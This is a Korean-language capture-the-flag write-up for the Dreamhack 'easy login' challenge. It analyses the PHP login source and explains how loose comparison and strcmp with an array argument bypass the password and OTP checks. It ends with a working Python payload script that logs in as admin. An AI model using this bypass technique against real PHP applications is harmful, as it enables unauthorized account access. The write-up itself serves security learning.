



---

---

## [Dreamhack] easy login

<br>

### 풀이

문제에 접속해보면 ID, PW, OTP를 입력하는 폼이 존재한다.



<br>

소스 코드를 살펴보면 index.php와 login.php가 존재한다. `/login.php`에 들어가보면 index.php로 리다이렉션 되는 것으로 보아 login.php에서는 동작만 수행하고 index로 리다이렉션 시켜주는 것 같다.



<br>

`generatePassword` 함수를 분석해보면 인자로 패스워드 길이를 받고 `characters` 변수에 16진수 문자열들을 저장하고 `strlen`을 통해 16 값을 `charactersLength` 에 저장하고 있다. 다음으로 pw를 초기화 한 후, 반복문을 통해 `random_int`라는 난수 생성기 함수로 `$characters`에서 무작위로 하나의 문자를 선택하기 위해 0부터 15까지 돌면서 `pw` 에 저장한 후 반환한다.

```php
function generatePassword($length) {
    $characters = '0123456789abcdef';
    $charactersLength = strlen($characters);
    $pw = '';
    for ($i = 0; $i < $length; $i++) {
        $pw .= $characters[random_int(0, $charactersLength - 1)];
    }
    return $pw;
}
```

<br>

`gernerateOTP` 함수를 보면 `random_int` 함수로 0부터 999999까지의 난수를 생성하고, `strval` 함수로 문자열 형태로 변경해준다. 다음으로 `strpad` 함수로 6자리의 패딩을 맞춰주는데 왼쪽부터 0으로 채워주고 맨 앞에 P를 합쳐서 예로 `P000123` 처럼 OTP를 생성한다.

```php
function generateOTP() {
    return 'P' . str_pad(strval(random_int(0, 999999)), 6, "0", STR_PAD_LEFT);
}
```

<br>

로그인 입력 폼을 찾아보면 POST 메소드로 `login.php`에 id, pw, otp 데이터를 전송하고, 아래에는 div 태그로 `login()` 함수가 동작한다.

```php+HTML
    <div class="login-container">
        <h2>Login as admin to get flag<h2>
        <form action="login.php" method="post">
            <div class="form-group">
                <label for="id">ID</label>
                <input type="text" name="id"></br>
            </div>
            <div class="form-group">
                <label for="pw">PW</label>
                <input type="text" name="pw"></br>
            </div>
            <div class="form-group">
                <label for="otp">OTP</label>
                <input type="text" name="otp"></br>
            </div>
            <button type="submit" class="button">Login</button>
        </form>
        <div class="message">
            <?php login(); ?>
        </div>
```

<br>

`login.php` 에서는 POST 메소드로 `index.php`로 데이터를 전송하고, php 코드를 살펴보면 a 변수에 배열을 초기화하고, `foreach` 반복문을 사용해서 이전에 제출한 POST 데이터 값을 $k와 $v에 키와 벨류 형태로 배열이 만들어진다. j 변수에는 만들어진 배열을 json 데이터로 변환하고 이를 cred의 value 값으로 base64인코딩하여 index.php에 전송된다. 그리고 아래 스크립트 코드로 id가 `redir`인 폼이 자동으로 제출되도록 스크립트 코드가 작성되어 있다.

```php+HTML
<form id="redir" action="index.php" method="post">
    <?php
    $a = array();
    foreach ($_POST as $k => $v) {
        $a[$k] = $v;
    }

    $j = json_encode($a);
    echo '<input type="hidden" name="cred" value="' . base64_encode($j) . '">';
    ?>
</form>

<script type="text/javascript">
    document.getElementById('redir').submit();
</script>
```

<br>

`index.php`에서 소스 코드를 더 보면 `admin_pw` 변수에 32자리의 패스워드를 생성하고, otp도 `generateOTP` 함수로 생성하여 값을 저장하고 있다. `login` 함수를 분석해보면 다음과 같다.

1. cred 값이 비어있으면 안됨
2. cred 값을 base64 인코딩해야 함
3. cred 값을 base64 인코딩전에 json 데이터 변환해야 함 
4. id, pw, otp 값이 비어있으면 안됨
5. id가 admin이 아니면 hello, id가 리턴됨
6. 입력한 OTP 값과 OTP 값이 일치하는지 확인
7. strcmp로 admin_pw와 입력한 pw를 비교

```php
$admin_pw = generatePassword(32);
$otp = generateOTP();

function login() {
    if (!isset($_POST['cred'])) {
        echo "Please login...";
        return;
    }

    if (!($cred = base64_decode($_POST['cred']))) {
        echo "Cred error";
        return;
    }

    if (!($cred = json_decode($cred, true))) {
        echo "Cred error";
        return;
    }

    if (!(isset($cred['id']) && isset($cred['pw']) && isset($cred['otp']))) {
        echo "Cred error";
        return;
    }

    if ($cred['id'] != 'admin') {
        echo "Hello," . $cred['id'];
        return;
    }
    
    if ($cred['otp'] != $GLOBALS['otp']) {
        echo "OTP fail";
        return;
    }

    if (!strcmp($cred['pw'], $GLOBALS['admin_pw'])) {
        require_once('flag.php');
        echo "Hello, admin! get the flag: " . $flag;
        return;
    }

    echo "Password fail";
    return;
}
```

<br>

이번 문제는 php 문제에서 거의 몇 번씩 나오는 strcmp와 != 비교에서 취약점을 찾아야한다. `strcmp` 함수의 경우 일치할 경우 0을 반환하고 틀릴 경우 1을 반환하게 되는데 여기서 값으로 빈 배열을 넣어주면 NULL이 되고 결국 NULL== 0이 되기 때문에 이를 우회할 수 있다. 또한 otp 같은 경우도 !=로 비교하지만 P로 시작하는 문자열을 0이라는 값과 비교하게 되면 비교하게 되는 문자열이 숫자형으로 변환되면서 0으로 변환된다. 따라서 0으로 값을 넣어주면 우회할 수 있다.

<br>

아래와 같이 페이로드를 작성해보면 id, pw, otp에 값을 넣어주고, 해당 값을 json으로 형변환하고, base64로 인코딩 해주어야 하기 때문에 `json.dumps()`로 형 변환해준 후 base64로 인코딩하기 위해 바이트로 변환하기 위해서 `encode()` 함수까지 해주었다. 그 뒤 `base64.b64encode` 로 해당 바이트를 base64로 변환하고 이를 문자열로 변환하기 위해 decode까지 수행하여  데이터를 보내면 된다.

```python
import requests
import json
import base64

url = "http://host3.dreamhack.games:8775/index.php"

payload = {
    "id": "admin",
    "pw": [],
    "otp": 0
}

data = {
    "cred": base64.b64encode(json.dumps(payload).encode()).decode()
}

response = requests.post(url, data=data)

print(response.text)
```

<br>

아래와 같이 flag를 잘 획득한 것을 볼 수 있다.


